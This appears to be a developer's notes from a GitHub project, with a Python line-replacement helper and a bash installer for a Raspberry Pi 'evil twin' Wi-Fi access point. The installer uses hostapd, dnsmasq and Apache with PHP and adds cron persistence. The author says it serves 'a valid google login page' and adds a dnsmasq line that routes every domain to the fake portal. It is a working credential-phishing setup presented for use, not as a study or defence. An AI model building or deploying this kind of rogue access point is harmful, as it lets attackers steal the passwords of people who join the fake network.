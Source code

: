Decided to make an update_file function cause its the same as ssid.
```python
def update_file(file_name: str, string: str):
    file = ''
    with open(file_name, 'r') as f:
        for line in f:
            if line.startswith(string[:4]):
                file+=string
            else:
                file+=line
    with open(file_name,'w') as f:
        f.write(file)
```

# Does this work?
I never tested the evil-twin script on the RPi. :skull:
```bash
apt-get install -y macchanger hostapd dnsmasq apache2 php

cp -f hostapd.conf /etc/hostapd/
cp -f dnsmasq.conf /etc/
cp -Rf html /var/www/

chown -R www-data:www-data /var/www/html
chown root:www-data /var/www/html/.htaccess

cp -f PiEvilTwinStart.sh /root/
crontab -l | { cat; echo "@reboot sudo sleep 10 && sudo sh /root/PiEvilTwinStart.sh && sudo service dnsmasq restart &"; } | crontab -

chmod +x /root/PiEvilTwinStart.sh
cp -f override.conf /etc/apache2/conf-available/
cd /etc/apache2/conf-enabled
ln -s ../conf-available/override.conf override.conf
cd /etc/apache2/mods-enabled

ln -s ../mods-available/rewrite.load rewrite.load
crontab -l | { cat; echo "@reboot sudo sleep 10 && sudo service dnsmasq restart &"; } | crontab -
exit 0
```

Going to remove the contabs as I dont want this to run on start.

Yep this works, very well. It's a valid google login page. To stop the browser freaking out about no ssl you can just add
```
address=/#/10.1.1.1
```

To the dnsmasq.conf file. This will cause the window to pop up instantly.

IDK how to stop this but doing a iptables flush and stopping both br0 and dnsmasq might do something.
```bash
ifconfig br0 down
iptables --flush
service dnsmasq stop
```
